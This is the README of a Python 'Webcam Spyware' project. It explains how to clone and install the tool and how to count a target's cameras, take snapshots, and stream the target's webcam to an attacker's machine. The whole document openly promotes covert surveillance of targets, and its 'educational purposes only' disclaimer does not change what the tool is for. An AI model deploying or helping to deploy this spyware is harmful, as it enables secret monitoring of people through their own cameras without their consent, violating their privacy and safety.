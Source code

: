 # Webcam Spyware

## Disclaimer

This script is for educational purposes only, I don't endorse or promote it's illegal usage

## Table of Contents

1. [Overview](#overview)
2. [Features](#features)
3. [Languages](#languages)
4. [Installations](#installations)
5. [Usage](#usage)
6. [Run](#run)

## Overview

This script allows an attacker spy on a target through the webcam

## Features

- You can check how many webcam are active on the target's system
- You can take snapshot with the target's webcam
- It streams the target's webcam view to the attacker

## Languages

- Python 3.9.7

## Installations

```shell
git clone https://github.com/favoursyre/webcam-spyware.git && cd webcam-spyware
```

```shell
pip install opencv-python
```

## Usage

To check how many webcams are active on the system

```python
cam = Webcam().camScanner()
```

To take a snapshot using the webcam

```python
camPort = 0
cam = Webcam().snapShot(camPort)
```

To stream the webcam view from the target to the attacker
- On target's system

```python
cam = Webcam().sender()
```

- On attacker's system

```python
host = "target-ip-address"
cam = Webcam().receiver(host)
```

## Run

```shell
python webcam.py
```

To use the streaming function, first run the software on target's system before running on the attacker's system
